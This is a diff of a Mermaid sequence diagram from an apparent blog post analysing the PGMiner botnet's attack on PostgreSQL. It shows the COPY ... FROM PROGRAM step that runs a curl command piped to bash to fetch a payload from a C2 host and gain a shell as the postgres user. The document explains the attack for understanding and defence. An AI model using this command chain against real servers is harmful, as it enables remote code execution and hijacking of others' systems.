

The seventh of 15 diagrams in src/content/blog/2026-09-01-pg-miner-attack.md (nvkhuy/nvkhuy.github.io), drawn with Mermaid before and after one commit. The commit also changed other lines of this file, not shown here.

````diff
--- a/src/content/blog/2026-09-01-pg-miner-attack.md
+++ b/src/content/blog/2026-09-01-pg-miner-attack.md
@@ -259,22 +259,22 @@
 ```mermaid
 sequenceDiagram
     participant Attacker as PGMiner Bot
     participant PG as PostgreSQL Server
     participant OS as Operating System
     participant C2 as C2 Server
 
     Attacker->>PG: SQL: DROP TABLE IF EXISTS cmd_exec
     PG->>PG: Execute DDL
 
     Attacker->>PG: SQL: CREATE TABLE cmd_exec (cmd_output TEXT)
     PG->>PG: Create temp table
 
-    Attacker->>PG: SQL: COPY cmd_exec FROM PROGRAM 'curl ... | bash'
-    PG->>OS: fork() + exec("curl ... | bash")
+    Attacker->>PG: SQL: COPY cmd_exec FROM PROGRAM 'curl c2/payload.sh'
+    PG->>OS: spawns sh -c curl then pipes to bash
     OS->>C2: HTTP GET /payload.sh
     C2->>OS: Return malicious shell script
     OS->>OS: bash executes payload.sh
     OS->>OS: Payload runs as postgres OS user
 
     Note over OS: Attacker now has shell access<br/>as the postgres user
 ```
````
